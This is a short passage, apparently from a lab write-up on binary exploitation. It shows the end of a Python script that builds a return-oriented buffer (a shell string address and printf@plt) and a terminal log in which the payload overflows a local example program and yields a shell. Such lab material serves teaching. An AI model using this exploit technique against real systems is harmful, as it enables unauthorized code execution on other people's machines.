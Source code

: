 ```Py
buf += p64(sh__string)
buf += p64(printf_at_plt)

sys.stdout.buffer.write(buf)
```
Resulting into a very nice shell:
```
lab@lab-VirtualBox:~/asl$ (python3 exploit4.py; cat;) | ./example_4 
id
Enter your name:hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@ !
id
uid=1000(lab) gid=1000(lab) groups=1000(lab),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```
